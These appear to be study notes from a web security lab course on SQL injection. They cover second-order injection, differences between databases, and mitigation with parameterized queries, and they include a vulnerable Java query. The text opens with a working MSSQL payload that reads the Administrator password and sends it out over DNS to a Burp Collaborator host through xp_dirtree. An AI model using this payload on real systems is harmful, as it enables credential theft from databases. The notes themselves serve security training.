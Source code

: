  '; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--

use this kind of payload from cheat sheet to exfiltrate data 

Chance of success : very high

- LAB Solution :

---

### Second-Order SQL injection :

First-order SQL injection arises where the application takes user input from an HTTP request and, in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability arises at the point where the data is stored.

Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.

This is often done where developer is aware about SQL injection and handle initial data safely to input in database. but when data is proceed later, it seems to be safe as it was safely placed but at after processing in another phase it's handled unsafely as developer deems it to be trusted.

---

### Database Specific factors :

Some core features of the SQL language are implemented in the same way across popular database platforms, and so many ways of detecting and exploiting SQL injection vulnerabilities work identically on different types of database.

However, there are also many differences between common databases.

- Syntax for string concatenation
- comments
- batched or stacked query
- platform specific APIs
- error messages

---

### Mitigation of SQL injection :

Most instances of SQL injection can be prevented by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

Following code is vulnerable to SQL injection because user input in concatenated directly into query :

`String query = "SELECT * FROM products WHERE category = '"+ input + "'";`

`Statement statement = connection.createStatement();`

`ResultSet resultSet = statement.executeQuery(query);`
